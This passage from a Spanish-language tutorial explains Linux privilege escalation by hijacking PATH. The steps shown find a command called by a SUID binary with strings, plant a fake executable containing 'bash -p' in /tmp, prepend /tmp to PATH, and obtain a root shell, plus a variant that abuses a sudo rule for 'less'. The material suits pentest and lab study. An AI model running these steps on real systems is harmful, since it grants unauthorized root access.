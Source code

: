 ```bash
strings nombre_archivo
```

Con strings podemos imprimir todas las cadenas imprimibles de un binario compilado.

4. Una vez determinado el comando nos dirigimos a una ruta con permisos de escritura como '/tmp' y creamos un archivo con el nombre del comando encontrado.

```bash
cd /tmp
touch comando
chmod +x comando
nano comando
agregamos 'bash -p'
```

Como el archivo encontrado ejecuta el comando y es SUID, con 'bash -p' abrimos una terminal y el parametro 'p' es una flag para abrirla como root.

5. Ahora el truco es hacer creer al sistema que ese archivo el que tiene que ejecutar, como ya dijimos al ejecutar un comando primero lo busca en la variable $PATH de izquierda a derecha, entonces agregaremos al comienzo la ruta donde creamos el archivo en este caso '/tmp'.

```bash
export PATH=/tmp:$PATH
```

Este cambio solo es temporal, si se cierra sesion y nuevamente se abre, no existira este cambio
Ahora buscara primero en /tmp y ahi es donde le decimos que el comando abrira una bash (terminal)

6. Nos dirigimos a la ruta donde esta el archivo SUID y lo ejecutamos. Al ejecutar deberia abrirnos una shell como Root.

### LIMITACIONES

El archivo debe contener una sentencia similar a esta:

```bash
setuid(0)  --> en C y python

```

Esto nos da una shell totalmente root, de lo contrario no hay seguridad en obtener la shell privilegiada.

Pero en caso de que al permiso sudo se otorga a un solo comando sin especificar la ruta:

```bash
hacker10 ALL= (root) less
```

puede modificar el path y crear un binary falso llamado **less** en este caso.

```bash
export PATH=/tmp:$PATH

#Put your backdoor in /tmp and name it "less"

sudo less
```
